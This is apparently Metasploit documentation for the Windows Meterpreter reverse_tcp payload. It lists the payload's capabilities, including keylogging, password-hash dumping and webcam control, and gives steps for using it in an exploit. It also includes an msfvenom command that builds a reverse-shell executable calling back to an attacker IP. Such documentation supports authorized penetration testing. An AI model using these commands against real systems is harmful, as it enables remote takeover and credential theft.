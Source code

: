 `windows/meterpreter/reverse_tcp` is one of the most powerful features
the Metasploit Framework has to offer, and there are so many things you
can do with it.

It allows you to remotely control the file system, sniff, keylog,
hashdump, perform network pivoting, control the webcam and microphone,
etc. It has the best support for post modules, and you can load
extensions, such as mimikatz and python interpreter, etc.

`windows/meterpreter/reverse_tcp` is also the default payload for all
Windows exploit targets.

## Vulnerable Application

This Meterpreter payload is suitable for the following environments:

* Windows x64
* Windows x86

## Verification Steps

`windows/meterpreter/reverse_tcp` is typically used in two different ways.

First, it is typically used as a payload for an exploit. Here's how to do that:

1. In msfconsole, select an exploit module
2. Configure the options for that exploit.
3. Do: `set payload windows/meterpreter/reverse_tcp`
4. Set the `LHOST` option, which is the IP that the payload should connect to.
5. Do: `exploit`. If the exploit is successful, it should execute that payload.

Another way to use `windows/meterpreter/reverse_tcp` is to generate it
as an executable. Normally, you would want to do it with msfvenom. If
you are old school, you have probably also heard of msfpayload and
msfencode. msfvenom is a replacement of those.

The following is a basic example of using msfvenom to to generate
`windows/meterpreter/reverse_tcp` as an executable:

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f exe -o /tmp/payload.exe
```

## Important Basic Commands

**pwd command**

The `pwd` command allows you to see the current directory you're in on
the remote target.  Example:

```
meterpreter > pwd
C:\Users\user\Desktop
```

**cd command**


[railgun]: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Railgun-for-Windows-post-exploitation